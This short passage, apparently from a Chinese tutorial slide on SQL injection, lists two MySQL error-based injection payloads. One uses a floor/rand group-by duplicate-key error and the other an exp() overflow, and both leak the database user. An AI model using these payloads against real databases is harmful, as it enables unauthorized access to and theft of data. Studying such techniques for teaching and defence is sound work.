

拓展
1 通过 floor 报错,注入语句如下:
select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a;
2 通过 exp 报错,注入语句如下:
select exp(~(select * from (select user())x));